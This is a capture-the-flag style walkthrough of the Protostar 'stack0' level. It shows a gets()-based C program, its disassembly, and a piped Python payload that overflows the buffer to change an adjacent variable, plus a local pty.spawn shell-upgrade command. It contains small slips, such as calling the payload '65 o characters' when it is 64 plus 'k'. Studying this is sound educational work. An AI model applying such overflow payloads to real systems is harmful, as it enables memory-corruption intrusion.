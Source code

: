# Stack0: Level 0 in pwn - stack BOF

First, make sure you are on the right directory.  
```bash
cd /opt/protostar/bin
```   
If you find the given shell restricted, run the following command to hop into a tty shell:    
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```  
You can read more about this on, [spawning a TTY Shell](https://netsec.ws/?p=337)    
Now, we are given a piece of C code  
```c
 #include <stdlib.h>
 #include <unistd.h>
 #include <stdio.h>
 
 int main(int argc, char **argv)
 {
   volatile int modified;
   char buffer[64];
 
   modified = 0;
   gets(buffer);
 
   if(modified != 0) {
       printf("you have changed the 'modified' variable\n");
   } else {
       printf("Try again?\n");
   }
 }
```  
At first, we need to test the normal behavior of the program. It is expecting a string of characters passed through STDIN.   
```bash
user@protostar:~$ /opt/protostar/bin/stack0
TEST
Try again?
```   
We now have to make a theory and then check it using a debugger(in our case GDB).   
We have a buffer of 64 characters stacked in the bottom of the Stack, on top of which is an integer of size 4 bytes.The goal is to simply change the var _modified_ value into anything thus we can think of overflowing into **modified**.  
We can have high hopes on this idea since gets() is used and as the man pages mention:
*Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.*  
This means that we simply need to input a string of 65 characters and that will mean we will modify a byte from modified thus solving the exercice.  
However, lets try to disass our program and understand how our variables are layed in the stack upon execution.  
Note that this series will depend on GDB(The GNU Debugger Project). However since this is the first walkthrough, we will use objdump.   
We will at first need the file type as it may help with addressing (this step is only mentioned here since all protostar tasks are 32-bit ELFs).    
```
file stack0
```   
Now, we can disass the executable using [**objdump**](https://linux.die.net/man/1/objdump) or GDB:

we need to load the executable with GDB:   
```bash
gdb stack0
disass main # to disassemble the main function
```   
we are prompted with   
```asm
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   %ebp
0x080483f5 <main+1>:    mov    %esp,%ebp
0x080483f7 <main+3>:    and    $0xfffffff0,%esp
0x080483fa <main+6>:    sub    $0x60,%esp
0x080483fd <main+9>:    movl   $0x0,0x5c(%esp)
0x08048405 <main+17>:   lea    0x1c(%esp),%eax
0x08048409 <main+21>:   mov    %eax,(%esp)
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    0x5c(%esp),%eax
0x08048415 <main+33>:   test   %eax,%eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   movl   $0x8048500,(%esp)
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   movl   $0x8048529,(%esp)
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```   
Most of the lines are usess to our scope, however we are interested in the line at 0x080483fd, that instruction resets the value of modified at the addr of *ESP + 0x5c*. A check is later done against the value 0 on the line *0x08048415* .
Later, we can see that the *buffer* starts at the addr *0x1c + ESP* meaning that modified and buffer are next to each other on the stack, thus the hopothesis is verified: *0x5c(h)-0x1c(h) = 0x40(h) = 64(10)*.  
Now, we can try to exploit the bug by simply running the command:   
```bash
python -c "print 'o'*64 + 'k'" | ./stack0
```   
That command serves us with writing the payload:   
65 'o' characters are used to fill the buffer[] +  byte('o') to fill the first byte of modified thus modify it and change the execution flow to print the success message.   
The pipe operator "|" will pipe the output of print from STDIN to the STDIN of stack0.   
**Congrats**!! Now you just solved the first level ^^.

